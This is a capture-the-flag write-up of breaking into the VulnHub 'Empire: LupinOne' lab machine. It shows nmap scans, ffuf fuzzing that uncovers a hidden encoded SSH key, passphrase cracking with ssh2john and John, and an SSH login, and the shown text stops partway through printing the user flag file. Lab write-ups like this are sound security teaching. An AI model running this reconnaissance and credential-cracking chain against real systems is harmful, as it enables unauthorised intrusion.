






<p align="center">
  
</p>

---
<div align="center">

<table>
  <tr>
    <td align="left" ><b>🎯 Target</b></td>
    <td>VulnHub - Empire: LupinOne</td>
  </tr>
  <tr>
    <td align="left" ><b>👨‍💻 Author</b></td>
    <td><code><br>sonyahack1</br></code></td>
  </tr>
  <tr>
    <td align="left" ><b>📅 Date</b></td>
    <td>25.11.2025</td>
  </tr>
  <tr>
    <td align="left" ><b>📊 Difficulty</b></td>
    <td>Medium</td>
  </tr>
  <tr>
    <td align="left" ><b>📁 Category</b></td>
    <td>Privilege Escalation / Misconfiguration</td>
  </tr>
  <tr>
    <td align="left" ><b>💻 Platform</b></td>
    <td>Linux</td>
  </tr>
</table>

</div>

---
## Table of Contents

- [MITRE](#-%EF%B8%8F--attack-implemented)
- [Report](#--report)
- [Reconnaissance](#%EF%B8%8F--reconnaissance)
- [Initial Access](#-initial-access)
- [Horizontal Privilege Escalation](#%EF%B8%8F--horizontal-privilege-escalation)
- [Vertical Privilege Escalation](#%EF%B8%8F--vertical-privilege-escalation)
- [Conclusion](#-conclusion)

---

<h2 align="center"> ⚔️  Attack Implemented</h2>

<div align="center">

<table width="100%" border="1" cellpadding="6" cellspacing="0">
  <thead>
    <tr>
      <th style="min-width: 250px; white-space: nowrap;">Tactics</th>
      <th>Techniques</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td align="left"><b>TA0043 - Reconnaissance</b></td>
      <td align="left"><b>T1595.002 - Active Scanning: Vulnerability Scanning</b></td>
      <td>Scanning the target. Information gathering – <b>identifying open ports</b></td>
    </tr>
    <tr>
      <td align="left"><b>TA0043 - Reconnaissance</b></td>
      <td align="left"><b>T1592.003 - Active Scanning: Wordlist Scanning</b></td>
      <td>A file with an <b>encrypted private key</b> was discovered using <b>Directory and File Fuzzing</b></td>
    </tr>
    <tr>
      <td align="left"><b>TA0006 - Credential Access</b></td>
      <td align="left"><b>T1110.002 - Brute Force: Password Cracking </b></td>
      <td>The <b>passphrase</b> for the private key has been hacked</td>
    </tr>
    <tr>
      <td align="left"><b>TA0001 - Initial Access</b></td>
      <td align="left"><b>T1133 - External Remote Services</b></td>
      <td>Access to the system was achieved through an <b>External Remote Service</b> - SSH</td>
    </tr>
    <tr>
      <td align="left"><b>TA0001 - Initial Access</b></td>
      <td align="left"><b>T1078.003 - Valid Accounts: Local Accounts</b></td>
      <td>Access was obtained using a <b>private key</b></td>
    </tr>
    <tr>
      <td align="left"><b>TA0004 - Privilege Escalation</b></td>
      <td align="left"><b>T1548.003 - Abuse Elevation Control Machanism: Sudo and Sudo Caching</b></td>
      <td>Exploiting sudo configuration for Horizontal Privilege Escalation</td>
    </tr>
    <tr>
      <td align="left"><b>TA0004 - Privilege Escalation</b></td>
      <td align="left"><b>T1548.003 - Abuse Elevation Control Machanism: Sudo and Sudo Caching</b></td>
      <td>Exploiting sudo configuration for Vertical Privilege Escalation</td>
    </tr>
  </tbody>
</table>

<br>

### Tools Used

<table border="1" cellpadding="6" cellspacing="0">
  <tr>
    <th>nmap</th>
    <th>ffuf</th>
    <th>John</th>
    <th>netcat</th>
    <th>Python</th>
  </tr>
</table>

<br>

<table>
  <tr>
    <th>🟢 User Flag</th>
    <td><code>3mp!r3{I_See_That_You_Manage_To_Get_My_Bunny}</code></td>
  </tr>
  <tr>
    <th>🟢 Root Flag</th>
    <td><code>3mp!r3{congratulations_you_manage_to_pwn_the_lupin1_box}</code></td>
  </tr>
</table>

</div>

<p align="center">
<b>Note:</b> The target is tested in a controlled lab environment via either a provided VPN connection or a downloadable vulnerable machine image.
For the purposes of this report and MITRE ATT&CK mapping, all compromised services are treated as directly exposed to the internet, simulating a
real-world external attack surface.
</p>

---

<h2 align="center"> 📝 Report</h2>

> We load the image of the vulnerable machine into `virtualbox`:

<p align="center">
 
</p>

> IP address of the machine being attacked - `192.168.50.235`

## 🕵️  Reconnaissance

> We scan the target using `nmap` in two stages. We identify `open ports` and the `services` running on them:

```bash

sudo nmap -p- -vv -T5 --min-rate=1500 192.168.50.235 -oN list_open_ports | grep -E '^[0-9]+/tcp[[:space:]]+open' | cut -d '/' -f1 | paste -sd, - > ports.txt

```
```bash

sudo nmap -p$(cat ports.txt) -A -vv 192.168.50.235 -oN full_results.txt

```
```bash

22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey:
|   3072 ed:ea:d9:d3:af:19:9c:8e:4e:0f:31:db:f2:5d:12:79 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCaL5p72wiDPedc7E90ri+viPAaxmn+59SWIoEF4hd4H3ethRxcpkU+DVtTgDbSwCK99T9jAjE0o2V6NLYKRW6dzHjVfUcvXRSlLyM2ffBETKcw4qqdoheEu7S52Q8ZInAavtS0tdL8HsO/0QoXBmtUl/ted9yf+X7Y3C+HcnMEZw+5+vTRObwn3K5jeCPCViZoapIGJM/a+YDpRmwZjeRhuf1gEDXFnqUB+Ro5gC19+/3GvY9O9VbIat02ckAUhNiDqMEj3DDsj5m9PS8FG7aGgYFJIQ53QUSw6JIw4cKhs72VtwjGr4ghaOTC1JFudKyzWwAZvaWnJdbR4KhkjCVGyZHQ443Bq+MhTmS6aX56oVBeWPucaudyhemrYQiRBRi7uXRxcuVtpvetgA6X4TVgbkwKI0EvMxblolJZYcyUHKZ2TmrxtAi6UV6vY0+uqUUcZZgbzb2qBdOI2avxGaX0nrBMbahjQS0nNz2UI/4qf0bfkXyC6arnTKg67/zKyGs=
|   256 bf:9f:a9:93:c5:87:21:a3:6b:6f:9e:e6:87:61:f5:19 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBP89M+Gx4b3irH4ph8Fyq2lBuyLq2yqNfRV4CpNpwlVLMYi53OnWVyIYnwWFxi1VsK3Rze4qBmgQy9Qaun6Uixs=
|   256 ac:18:ec:cc:35:c0:51:f5:6f:47:74:c3:01:95:b4:0f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBMI8KKmlP6LyPMawRRmpwVKGOd5QvO5Ob29UcLugTPY
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
| http-robots.txt: 1 disallowed entry
|_/~myfiles

```

> The scan showed two open ports:

- `22 (ssh)` - used for ssh connections
- `80 (http)` - web server Apache httpd 2.4.48

> Open a website in your browser on port `80`:

<p align="center">
 
</p>

> Nothing useful. The scan also revealed the presence of a `robots.txt` file with the content `disallowed entry` - `/~myfiles`.

> Let's display the contents of `/~myfiles`:

```bash

curl -i 'http://192.168.50.235/~myfiles/'

HTTP/1.1 200 OK
Date: Tue, 25 Nov 2025 20:20:38 GMT
Server: Apache/2.4.48 (Debian)
Last-Modified: Mon, 04 Oct 2021 14:39:59 GMT
ETag: "93-5cd87e32e39c8"
Accept-Ranges: bytes
Content-Length: 147
Vary: Accept-Encoding
Content-Type: text/html

<!DOCTYPE html>
<html>
<head>
<title>Error 404</title>
</head>
<body>

<h1>Error 404</h1>

</body>
</html>

<!-- Your can do it, keep trying. -->

```

> `Your can do it, keep trying`.

> We run fuzzing with `ffuf` and find other similar directories starting with `~`:

```bash

ffuf -u 'http://192.168.50.235/~FUZZ' -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -ic -c

```
```bash

secret                  [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 0ms]

```

> Let's display the contents of `/~secret/`:

```bash

curl -i 'http://192.168.50.235/~secret/'

HTTP/1.1 200 OK
Date: Tue, 25 Nov 2025 20:22:24 GMT
Server: Apache/2.4.48 (Debian)
Last-Modified: Mon, 04 Oct 2021 19:29:00 GMT
ETag: "14b-5cd8becc9a396"
Accept-Ranges: bytes
Content-Length: 331
Vary: Accept-Encoding
Content-Type: text/html

<br>Hello Friend, Im happy that you found my secret diretory, I created like this to share with you my create ssh private key file,</>
<br>Its hided somewhere here, so that hackers dont find it and crack my passphrase with fasttrack.</>
<br>I'm smart I know that.</>
<br>Any problem let me know</>
<h4>Your best friend icex64</>

```

> We get a hint telling us about a `private ssh key` hidden `somewhere here`. It also says the key is protected by a `passphrase` and the brute force dictionary - `fasttrack` (important to remember).

> We continue fuzzing in `/~secret/`. Search for the `private ssh key`:

```bash

ffuf -u 'http://192.168.50.235/~secret/.FUZZ' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -ic -c -e .env,.ini,.config,.conf,.yaml,.yml,.npmrc,.bashrc,.zshrc,.user.ini,.dockerignore,.dockerenv,.dockerfile,.env.backup,.env.bak,.txt,.key,.pem,.id_rsa,.asc,.pub -fs 279

```
```bash

mysecret.txt            [Status: 200, Size: 4689, Words: 1, Lines: 2, Duration: 3ms]

```

> Fuzzing revealed the presence of the file `mysecret.txt`. Let's display the contents using `curl`:

```bash

curl -i 'http://192.168.50.235/~secret/.mysecret.txt'

HTTP/1.1 200 OK
Date: Tue, 25 Nov 2025 20:25:49 GMT
Server: Apache/2.4.48 (Debian)
Last-Modified: Mon, 04 Oct 2021 22:09:29 GMT
ETag: "1251-5cd8e2abc4273"
Accept-Ranges: bytes
Content-Length: 4689
Vary: Accept-Encoding

Content-Type: text/plain

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

```

> This is `base58` encoding. Use `CyberChef` to decrypt it and get a `private ssh key`:

<p align="center">
 
</p>

> We try to connect via `ssh` under the user `icex64` (it was previously specified in `/~secret`):

```bash

ssh -i private_key.txt icex64@192.168.50.235
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
Enter passphrase for key 'private_key.txt':

```

> The `ssh client` requests the `passphrase` used to encrypt this key.

> We extract the password hash using `ssh2john` and run it through the previously mentioned `fasttrack dictionary`:

```bash

ssh2john private_key.txt > hash.txt

```
```bash

john --wordlist=fasttrack.txt hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
P@55w0rd!        (private_key.txt)
1g 0:00:00:01 DONE (2025-11-25 15:31) 0.9433g/s 120.7p/s 120.7c/s 120.7C/s default..complex
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

```

> Great. We received `passphrase` from the private key - `P@55w0rd!`.

---
## 🔓 Initial Access

> We connect via `ssh` using the `passphrase`:

```bash

ssh -i private_key.txt icex64@192.168.50.235
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
Enter passphrase for key 'private_key.txt':
Linux LupinOne 5.10.0-8-amd64 #1 SMP Debian 5.10.46-5 (2021-09-23) x86_64
########################################
Welcome to Empire: Lupin One
########################################
Last login: Tue Nov 25 14:04:59 2025 from 192.168.50.127
icex64@LupinOne:~$ id
uid=1001(icex64) gid=1001(icex64) groups=1001(icex64)
icex64@LupinOne:~$

```

> I get the `user flag` from the user's home directory - `/home/icex64`

```bash

icex64@LupinOne:~$ cd ~
icex64@LupinOne:~$ cat user.txt
    ...,    ,...    ..,.   .,,  *&@@@@@@@@@@&/.    ,,,.   .,..    ...,    ...,
    ,,,.    .,,,    *&@@%%%%%%%%%%%%%%%%%%%%%%%%%%%&@,.   ..,,    ,,,,    ,,,.
..,.    ,..,  (@&#%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%&%,.    ..,,    ,...    ..
    .... .@&%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%@  ....    ....    ,...
    .,#@%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%@  .,..    ,.,.    ...,
.,,,&%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%@#@.,    .,.,    .,..    .,
...@%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%&@####@*.    ..,,    ....    ,.
   @%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%@@%#######@% .,.,    .,.,    .,.,
..,,@@%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%@@@@@@@@%#######@@,    ..,.    ,..,    ..
.,,, @@@@@@@@&%%%%%%%%%%%%%&@@@@@@@@@@@@@@@@@@@%%%#####@@,    .,,,    ,,.,    .,
    ..@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%%%%%###@@ .,..    ...,    ....
...,  .@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%%%%%%%#&@.    ...,    ...,    ..
....   #@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%%%%%%%%%@.    ....    ....    ..
    .,.,@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@&%%%%%%%#@*.,.,    .,.,    ..@@@@
..,.    .@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%%%%%%%#@@    ..,.    ,..*@&&@@.
.,,.    ,.@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%%%%%%%%@@    .,,.    .@&&&@( ,,
    ,.,.  .@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@&%%%%%%%@@%%&@@@, ,,,@&@@@.,,,
....    ...#@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@&&%%%%&%,@%%%%%%%#@@@@@%..    ..
...,    ...,@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@&&&&@,*,,@%%%%%%@@@&@%%@..    ..
